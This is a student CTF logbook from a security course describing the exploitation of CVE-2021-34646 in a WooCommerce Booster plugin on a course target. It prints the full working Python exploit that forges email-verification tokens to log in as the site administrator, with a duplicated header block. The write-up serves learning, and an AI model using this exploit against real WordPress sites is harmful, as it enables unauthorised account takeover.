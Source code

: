 # Work done in week #3

## CTF - Week 3

Sanity Check: The flag was on the rules as stated.

Challenge 1:
1. We accessed the provided URL and explored the products being sold.
2. We found a product with a comment reporting security issues.
3. We checked the versions of WordPress and plugins for the product.
4. We noticed a footer message stating that the seller uses the same plugins and WordPress.
5. We searched for CVEs (Common Vulnerabilities and Exposures) corresponding to the collected information.
6. We found 2 possible candidates, and one of them was correct.

Challenge 2:
1. We used the provided exploit at https://www.exploit-db.com/exploits/50299.
2. Initially, we encountered issues trying to run the file without the correct permissions and with the wrong Python version.
3. When accessing the address provided http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/1 (being 1 the user id) by the exploiter, we verified that the id belongs to the admin

![CheckAdminID](https://git.fe.up.pt/fsi/fsi2324/logs/l01g07/-/blob/main/Logbooks/img/checkAdminID.png)

4. We executed the exploit with the target's URL and ID 1.
5. We obtained 3 possible URLs, and one of them granted us administrator privileges.

![HashCodes](https://git.fe.up.pt/fsi/fsi2324/logs/l01g07/-/blob/main/Logbooks/img/3HashCodes.png)

6. We accessed the provided posts section at http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php.
7. In an admin post, we found the flag.


**Exploit:**

```python
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")
```

## Identification

- CVE-2021-34646 - WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass (https://www.exploit-db.com/exploits/50299)

- This vulnerability allows remote attackers to bypass authentication and act as other users. The WooCommerce Booster Plugin has a weak random token generation in the reset_and_mail_activation_link function found in the ~/includes/class-wcj-emails-verification.php file. Attackers can easily generate a token that, when used with the process_email_verification function, allows the impersonation of users, including administrators. This vulnerability requires the "Email Verification" module and the "Login User After Successful Verification" setting to be enabled, which it is by default.

- Affected systems:
    - WordPress Plugin WooCommerce Booster Plugin 5.4.3

## Catalogue

- This exploit garnered an exceptionally high CVSS score of 9.8 out of 10, signifying its extreme criticality.

## Exploit

The exploit used by us was found in the following url: https://www.exploit-db.com/exploits/50299

It's a python script that takes a URL and a user ID as parameters. It, then, generates possible email verification tokens for that user, through the known weak token generation method. Finaly, it creates various URLs with those tokens, of which, one of them can authenticate the attacker as the user for the given URL.

## Atacks

When gaining access to the website as an admin, we found that the attacker can edit the contents he would like such as the home page:

![AdminControl1](https://git.fe.up.pt/fsi/fsi2324/logs/l01g07/-/blob/main/Logbooks/img/adminControl1.png)

![AdminControl2](https://git.fe.up.pt/fsi/fsi2324/logs/l01g07/-/blob/main/Logbooks/img/adminControl2.png)

